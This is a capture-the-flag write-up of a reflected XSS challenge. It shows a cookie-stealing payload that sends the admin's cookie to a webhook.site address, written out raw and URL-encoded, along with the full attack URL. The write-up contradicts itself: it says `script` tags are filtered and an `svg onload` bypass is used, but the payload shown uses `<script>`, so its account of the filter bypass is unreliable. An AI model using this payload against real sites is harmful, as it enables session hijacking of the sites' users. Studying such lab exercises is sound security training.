# Challenge `Give me more than a simple WAF` Writeup

- Vulnerability: 
  - XSS attack
- Where:
  - Feedback link input
- Impact:
  - allows to steal remote user's cookie

## Analyzing the server

This challenges consists in grabbing the admins' cookies but this time certain keywords are being filtered out.
From the previous challenge, we know that the server is vulnerable to XSS attacks.
The feedback feature allows us to submit a link that the admin will click on.

## Exploit

Knowing that the admin will click on the link, it's possible to take advantage of the search bar action 
`?search=` to send a malicious payload that will reveal the cookies on his browser and then send them
to us.
This time we can't create a payload with the keyword `script` or `img` so we will use the `svg` tag with the `onload` function execute the JavaScript code.
Start by creating a website on [Webhook](https://webhook.site/) which will receive the remote requests.
Then, get the link to the website and create the following payload:
`<script>location="https://webhook.site/your-unique-id/"+document.cookie</script>`.
This will trigger a GET request to the webhook appending the admin's cookies to the URL.
Enconde the payload to ensure that it will be correctly interpreted:
`%3Cscript%3Elocation%3D%22https%3A%2F%2Fwebhook.site%2Fyour-unique-id%2F%22%2Bdocument.cookie%3C%2Fscript%3E`
Finally, append it to the search bar action `?search=` and submit it to the admin.
`http://mustard.stt.rnl.tecnico.ulisboa.pt:22251/?search=%3Cscript%3Elocation%3D%22https%3A%2F%2Fwebhook.site%2Fyour-unique-id%2F%22%2Bdocument.cookie%3C%2Fscript%3E`
In the webhook site, you will see a GET request with the cookies in the URL
`https://webhook.site/your-unique-id/SECRET=SSof%7BThis_is_my_secret%7D` revealing the flag
`SSof{This_is_my_secret}`.

## Implementation

No script needed.